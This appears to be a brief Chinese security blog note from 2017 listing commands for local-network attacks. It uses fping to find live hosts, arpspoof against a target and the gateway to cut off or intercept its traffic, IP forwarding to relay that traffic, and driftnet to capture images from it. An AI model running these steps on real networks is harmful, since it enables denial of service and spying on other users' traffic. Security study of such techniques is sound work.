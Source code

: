 ```yaml
---
title: wifi
date: 2017-03-22 17:04:20
categories: [Security]
tags: [Security]
---
```

wifi
<!-- more -->
<h3>查看局域网内所有的ip</h3>
```bash
fping -asg 192.168.0.1/24
```
例出局域网中存活的主机
```bash
fping -asg 192.168.0.1/24 2>dev/null
```

<h3>arp断网</h3>
```bash
arpspoof -i 网卡 -t 目标ip 网关
```
```bash
arpspoof -i eth0 -t 192.168.0.151 192.168.0.1
```
从网关出去
```bash
echo 1 >/proc/sys/net/ipv4/ip_forward
```

<h3>获取本机网卡的图片信息</h3>
```bash
driftnet -i eth0
```




<!--<img src="/images/6.png" width="800" height="263" />-->
<!--<font color=#FF6666></font>-->
